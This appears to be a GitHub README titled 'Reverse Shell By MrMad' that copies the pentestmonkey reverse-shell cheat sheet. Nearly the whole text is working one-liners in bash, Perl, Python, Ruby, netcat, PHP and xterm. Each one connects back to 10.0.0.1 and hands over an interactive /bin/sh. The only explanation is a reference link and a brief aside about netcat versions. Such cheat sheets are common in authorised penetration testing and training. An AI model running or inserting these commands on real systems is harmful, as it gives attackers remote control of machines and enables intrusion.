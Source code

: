 - Reverse Shell By MrMad 

- refrence 
```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```


# BASH
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# PERL
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# RUBY
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

# NETCAT
```
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# XTERM
```
xterm -display 10.0.0.1:1
```
